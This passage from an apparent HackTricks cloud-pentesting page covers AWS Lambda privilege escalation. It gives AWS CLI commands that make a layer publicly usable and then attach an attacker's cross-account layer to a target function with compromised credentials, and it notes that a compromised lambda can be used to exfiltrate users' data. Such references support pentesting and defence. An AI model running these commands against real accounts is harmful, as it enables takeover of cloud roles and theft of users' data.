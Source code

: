 ```bash
aws lambda add-layer-version-permission --layer-name boto3 \
    --version-number 1 --statement-id public \
    --action lambda:GetLayerVersion --principal *
```

Now with the **compromised credentials** we have, we will run the following command on our target Lambda function “s3-getter”, which will **attach our cross-account Lambda layer**.

```
aws lambda update-function-configuration \
    --function-name s3-getter \
    --layers arn:aws:lambda:REGION:OUR-ACCOUNT-ID:layer:boto3:1
```

The next step would be to either **invoke the function** ourselves if we can or to wait until i**t gets invoked** by normal means–which is the safer method.

**Potential Impact:** Direct privesc to the lambda service role used.

### `?iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateFunctionUrlConfig`, `lambda:InvokeFunctionUrl`

Maybe with those permissions you are able to create a function and execute it calling the URL... but I could find a way to test it, so let me know if you do!

## Steal Lambda Info

Some lambdas are going to be **receiving sensitive info from the users in parameters.** If get RCE in one of them, you can exfiltrate the info other users are sending to it, check it in:

{% content-ref url="aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](aws-warm-lambda-persistence.md)
{% endcontent-ref %}

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>
